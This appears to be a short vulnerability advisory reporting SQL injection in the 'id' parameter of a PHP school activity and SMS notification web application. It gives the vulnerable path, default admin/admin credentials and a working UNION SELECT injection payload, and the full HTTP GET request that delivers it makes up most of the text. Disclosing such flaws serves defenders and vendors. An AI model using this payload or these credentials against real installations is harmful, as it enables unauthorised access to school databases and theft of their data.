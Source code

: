 # School Activity Updates with SMS Notification v1.0 by janobe has SQL injection

BUG_Author: Moye

Login account: admin/admin (Super Admin account)

vendors: https://www.sourcecodester.com/php/13799/school-activity-updates-sms-notification-phppdo.html

The program is built using the xmapp-php5.6 version

Vulnerability File: /activity/admin/modules/autonumber/index.php?view=edit&id=

Vulnerability location: /activity/admin/modules/autonumber/index.php?view=edit&id=, id

dbname =db_wvsu

[+] Payload:  /activity/admin/modules/autonumber/index.php?view=edit&id=-1%27%20union%20select%201,database(),3,4,5--+ // Leak place ---> id

```sql
GET /activity/admin/modules/autonumber/index.php?view=edit&id=-1%27%20union%20select%201,database(),3,4,5--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=a58hbbkeelngug4ek0dssb0rb5
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/183560710-f0f0884b-fef0-49ce-ac88-d7ef51959b00.png)

